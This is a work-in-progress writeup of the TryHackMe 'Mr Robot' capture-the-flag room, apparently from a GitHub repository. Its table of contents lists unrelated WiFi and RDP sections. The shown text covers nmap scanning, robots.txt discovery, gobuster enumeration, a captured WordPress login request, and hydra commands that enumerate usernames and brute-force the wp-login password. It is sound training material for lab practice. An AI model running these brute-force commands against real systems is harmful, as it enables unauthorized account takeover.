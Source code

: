 #### THIS PAGE IS A WORKS IN PROGRESS ####


![image](https://github.com/beta-j/TryHackMe-Rooms/assets/60655500/109cc692-4ce9-4be0-83b8-935211f82301)

# Mr Robot CTF Writeup #
### [https://tryhackme.com/room/adv3nt0fdbopsjcap](https://tryhackme.com/room/mrrobot) ###

#  
### CONTENTS : ###
[TL;DR](#tldr-)

[PROCEDURE](#procedure-)

-  [Part 1 - Retrieving the WiFi SSID](#part-1---retrieving-the-wifi-ssid)
    
-  [Part 2 - Retrieving the WiFi Password](#part-2---retrieving-the-wifi-password)
    
-  [Part 3 - Decrypting and Analysing WiFi Traffic](#part-3---decrypting-and-analysing-wifi-traffic)
    
-  [Part 4 - Decrypting and Replaying a RDP Session](#part-4---decrypting-and-replaying-a-rdp-session)



### TL;DR : ###
#

Target IP: **``10.10.90.47``**

## FLAG 1 of 3 ##

>HINT: `Robots`

We are given a target IP  and a one-word hint that seems to be in-keeping with the overall Mr Robot theme of the room.

To start off, let's perform a NMAP scan just to see what services are running on the target:

```console
root@ip-10-10-140-73:~/mrobot# nmap -sV 10.10.90.47

Starting Nmap 7.60 ( https://nmap.org ) at 2024-02-07 09:03 GMT
Nmap scan report for ip-10-10-90-47.eu-west-1.compute.internal (10.10.90.47)
Host is up (0.00051s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
MAC Address: 02:14:FF:13:8D:17 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.79 seconds
```

It looks like the server is just running a web-page which we can access by visiting `http://10.10.90.47/` in our browser.  This brings up a cool simulated console:

![image](https://github.com/beta-j/TryHackMe-Rooms/assets/60655500/5b168d2c-2a5b-48ba-8b7b-b64f0239b54d)

Trying to enter any of the commands offered on screen doesn't really lead anywhere, other than to give us some cool Mr Robot themed videos, pictures and text prompts. But it's worth noting that every command we enter redirects to a sub-url with the same name.  So for example if we enter the command `inform` it will take us to the `/inform` webpage.

Just as we'd normally do in a normal enumeration exercise (and also because fo that hint we got), we can take a look at the `robots.txt` file to see whether it contains anything interesting:

![image](https://github.com/beta-j/TryHackMe-Rooms/assets/60655500/cc7708d5-66c4-415b-8123-a309f57698b8)

From here we can see reference to two interesting files; `fsocity.dic` and `key-1-of-3.txt`.

We can simply look at the contents of `key-1-of-3.txt` by entering the URL `http://10.10.90.47/key-1-of-3.txt` in the browser or by using `curl`:

```console
root:~# curl http://10.10.90.47/key-1-of-3.txt
073403<R E D A C T E D>0724b9
```

## FLAG 2 of 3 ##

>Hint: `There's something fishy about this wordlist... Why is it so long?`


We should also go ahead and download a copy of `fsocity.dic`.  Having a look at its contents, it appears to be some kind of wordlist.  Based on past expereinces with similar CTF challenges, this indicates that we'll probably be needing this wordlist to perform a bruteforce password cracking at some point later on.

For the time being, let's take a closer look at the website and see whether we can find an interestiugn directories.  We can use `gobuster` with a medium wordlist for this:

```console
root:~# gobuster dir -u http://10.10.90.47 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 1000 -q
/video (Status: 301)
/admin (Status: 301)
/wp-content (Status: 301)
/atom (Status: 301)
/0 (Status: 301)
/audio (Status: 301)
/feed (Status: 301)
/css (Status: 301)
/intro (Status: 200)
/images (Status: 301)
/sitemap (Status: 200)
/image (Status: 301)
/Image (Status: 301)
/wp-login (Status: 200)
/rss2 (Status: 301)
```

Interestingly we can see a `/wp-login` page and if we try accessing this we are served a Wordpress login page! :)

If we try logging in with username `admin` and password `admin` (just to see what happens).  The page serves up an error saying **_Invalid username_**.  This is actually great news fopr us as this means we have a way of trying out multiple usernames and finding out which of them are valid.

![image](https://github.com/beta-j/TryHackMe-Rooms/assets/60655500/59c85716-60e0-4cb6-a03d-2dbc19ef8298)

We can do this quite easily using a tool such as `hydra` and it makes sense to use the `fsocity.dic` wordlist we found earlier to attempt this.  But first let's fire up Burp Suite and have a look at what happens when we submit a username and password.  This will allow us to consturct the proper hydra command we need to use.

```http
POST /wp-login.php HTTP/1.1
Host: 10.10.90.47
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 100
Origin: http://10.10.90.47
Connection: close
Referer: http://10.10.90.47/wp-login.php
Cookie: s_cc=true; s_fid=5C779EDA99811D07-07120F123BF26DC4; s_nr=1707297020912; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

log=admin&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.90.47%2Fwp-admin%2F&testcookie=1
```

We can see a http POST request being made that passes the username as the variable `log` and the password as the variable `pwd`.  We can now use this information so that hydra can enumarte valid usernames with the following command:

```console
root:~# hydra -L fsocity.dic -p abcdef 10.10.5.136 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username"
```

Let's take a closer look at the parameters we're passing on to hydra in this command:
- `-L <filename>` passes a wordlist to be used when brute forcing logins/passwords.  In our case we will be using the file `fsocity.dic` which we downloaded earlier
- `-p <password>` specifies the password to use.  Since we are just trying to enumarate usernames for the time being, we can use any random string here.
- `http-post-form` tells hydra to use the http post method (since this is what we saw in Burp Suite).
- `/wp-login.php:log=^USER^&pwd=^PWD^:Invalid Username`  This part tells hydra the strcuture that the http post request should take. In our case we copy this from the captured post in Burp Suite and replace the username and password with the placeholders `^USER^` and `^PWD^` respectively.  The "`Invalid Username`" is a string we're expecting to recieve in the http response whenever the username is incorrect.

Hydra gives us the following output telling us that from the `fsocity.dic` file provided it has identified `Elliot` as a valid username.

```console
[DATA] attacking http-post-form://10.10.5.136:80//wp-login.php:log=^USER^&pwd=^PWD^:Invalid username
[80][http-post-form] host: 10.10.5.136   login: Elliot   password: abcdef
```

We can now try running the attack again but this time using `Elliot` as the username and brute-forcing the password field.

```console
root:~# hydra -l elliot -P fsocity.dic 10.10.5.136 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered"
```
This time we're using the `-l` switch with username `elliot` and the `-P` switch instead of `-p` to use a wordlist file.  Note that the failure message has also been changed to "The password you entered" to reflect part of the error message we get when we try logging in with the correct username but an incorrect password.
